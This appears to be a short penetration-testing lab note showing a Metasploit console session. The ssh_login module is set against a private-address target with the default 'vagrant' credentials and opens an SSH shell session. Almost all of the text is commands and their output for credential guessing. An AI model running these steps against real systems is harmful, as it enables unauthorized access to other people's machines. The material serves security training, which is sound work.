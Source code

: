 



**login using ssh credentials with metasploit `auxiliary/scanner/ssh/ssh_login` **

```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > options 

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           false            yes       Whether to print output for all attempts

msf6 auxiliary(scanner/ssh/ssh_login) > setg RHOSTS 10.4.18.58
RHOSTS => 10.4.18.58
msf6 auxiliary(scanner/ssh/ssh_login) > set USERNAME vagrant
USERNAME => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > set PASSWORD vagrant
PASSWORD => vagrant
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 10.4.18.58:22 - Starting bruteforce
[+] 10.4.18.58:22 - Success: 'vagrant:vagrant' 'Microsoft Windows Server 2008 R2 Standard 6.1.7601 Service Pack 1 Build 7601'
[*] SSH session 1 opened (10.10.22.2:42823 -> 10.4.18.58:22 ) at 2024-02-12 00:15:16 +0530
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions 

Active sessions
===============

  Id  Name  Type           Information  Connection
  --  ----  ----           -----------  ----------
  1         shell windows  SSH root @   10.10.22.2:42823 -> 10.4.18.58:22  (10.4.18.58)

```
